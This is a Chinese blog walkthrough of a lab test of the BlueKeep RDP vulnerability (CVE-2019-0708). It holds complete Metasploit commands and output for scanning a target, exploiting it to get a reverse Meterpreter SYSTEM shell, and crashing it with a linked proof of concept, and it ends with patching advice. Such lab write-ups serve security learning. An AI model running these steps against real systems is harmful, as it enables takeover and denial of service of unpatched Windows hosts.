


# CVE-2019-0708 漏洞检测利用 - 学安全的小白 - 博客园

> 原文：[`www.cnblogs.com/pursue-security/p/16976231.html`](https://www.cnblogs.com/pursue-security/p/16976231.html)

# 漏洞详情

Windows 系列[服务器](https://cloud.tencent.com/product/cvm?from=10680)于 2019 年 5 月 15 号，被爆出高危漏洞，该漏洞影响范围较广，漏洞利用方式是通过远程桌面端口 3389，RDP 协议进行攻击的。这个漏洞是今年来说危害严重性最大的漏洞，跟之前的勒索，永恒之蓝病毒差不多。

# 漏洞影响版本

*   Windows 7 for 32-bit Systems Service Pack 1
*   Windows 7 for x64-based Systems Service Pack 1
*   Windows Server 2008 for 32-bit Systems Service Pack 2
*   Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 for Itanium-Based Systems Service Pack 2
*   Windows Server 2008 for x64-based Systems Service Pack 2
*   Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
*   Windows XP SP3 x86
*   Windows XP Professional x64 Edition SP2
*   Windows XP Embedded SP3 x86
*   Windows Server 2003 SP2 x86
*   Windows Server 2003 x64 Edition SP2
*   **Windows 8 和 Windows 10 及之后版本的用户不受此漏洞影响**

# 工具脚本分享

链接：https://pan.baidu.com/s/1iGZcW1OxmrYvdJEBdjlSgA?pwd=e3hr
提取码：e3hr

# 漏洞复现

1、复现环境

攻击机 kali：192.168.80.128

靶机 windwos7：192.168.80.129

2、windwos7 开启远程桌面



 点击允许远程访问。



 3、在 kali 中启动 msf，使用 cve-2019-0708 漏洞的扫描模板对靶机进行扫描。

```
msf6 > search 0708 Matching Modules ================

   # Name                                             Disclosure Date  Rank    Check  Description
   -  ----                                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep     2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check 1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce   2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free 2  exploit/windows/browser/clear_quest_cqole        2012-05-19 normal  No     IBM Rational ClearQuest CQOle Remote Code Execution 3  exploit/windows/browser/tumbleweed_filetransfer  2008-04-07 great   No     Tumbleweed FileTransfer vcst_eu.dll ActiveX Control Buffer Overflow

Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/browser/tumbleweed_filetransfer

msf6 > use 0 msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 192.168.80.129 rhosts => 192.168.80.129 msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 192.168.80.129:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.80.129:3389   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

从扫描结果可以看到靶机存在该漏洞。

4、使用 msf 反弹 shell

反弹 shell 的前提：靶机和攻击机互通。

```
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > search 0708 Matching Modules ================

   # Name                                             Disclosure Date  Rank    Check  Description
   -  ----                                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep     2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check 1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce   2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free 2  exploit/windows/browser/clear_quest_cqole        2012-05-19 normal  No     IBM Rational ClearQuest CQOle Remote Code Execution 3  exploit/windows/browser/tumbleweed_filetransfer  2008-04-07 great   No     Tumbleweed FileTransfer vcst_eu.dll ActiveX Control Buffer Overflow

Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/browser/tumbleweed_filetransfer

msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > use 1 [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts 192.168.80.129 rhosts => 192.168.80.129 msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost 192.168.80.128 lhost => 192.168.80.128 msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lport 4444 lport => 4444 msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

Exploit targets:

   Id  Name --  ----
   0 Automatic targeting via fingerprinting 1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64) 2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6) 3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14) 4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15) 5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1) 6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V) 7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS) 8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)

msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1 target => 1 msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

[*] Started reverse TCP handler on 192.168.80.128:4444 [*] 192.168.80.129:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.80.129:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.80.129:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.80.129:3389   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.80.129:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.80.129:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[!] 192.168.80.129:3389 - <---------------- | Entering Danger Zone | ----------------> [*] 192.168.80.129:3389 - Surfing channels ...
[*] 192.168.80.129:3389 - Lobbing eggs ...
[*] 192.168.80.129:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.80.129:3389 - <---------------- | Leaving Danger Zone | ----------------> [*] Sending stage (200774 bytes) to 192.168.80.129 [*] Meterpreter session 1 opened (192.168.80.128:4444 -> 192.168.80.129:49159) at 2022-12-12 15:16:09 +0800 meterpreter > shell Process 2580 created.
Channel 1 created.
Microsoft Windows [▒汾 6.1.7601]
▒▒Ȩ▒▒▒▒ (c) 2009 Microsoft Corporation▒▒▒▒▒▒▒▒▒▒Ȩ▒▒

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

其中设置 target 需要根据靶机的属性来原则，0 代表自动根据指纹自动判断情况（不太好用），1 代表真实机器，2 代表目标系统在 virtualbox 虚拟机下运行，3、4、5 代表代表目标系统在 virtualbox 虚拟机下运行，6 代表目标系统在 Hyper-V 虚拟机下运行。如果用目标型号的 targets 利用不成功的话，就换其他的 targets 试一下（简单来说就是多试试就行了）

注：攻击 Windows 7 SP1 x64 与 Windows 2008 R2 x64 的 EXP 不太稳定，针对 Windows 7 SP1 x64 攻击有蓝屏现象。

## 批量检测脚本

windows 下的 python 环境：

1.  编辑 3389_hosts，将待检测的 IP 地址写入文件，一行一个
2.  命令行切换到代码所在的目录，运行 python3 cve-2019-0708.py


##  蓝屏

使用漏洞 POC 进行测试： POC：[`github.com/n1xbyte/CVE-2019-0708`](https://github.com/n1xbyte/CVE-2019-0708) 用法：python3 crashpoc.py ip 地址 系统类型


 靶机已蓝屏。


#  漏洞修复

及时打对应系统的安全补丁
关闭 3389 端口或添加防火墙安全策略限制对 3389 端口的访问

# 参考

https://cloud.tencent.com/developer/article/2069868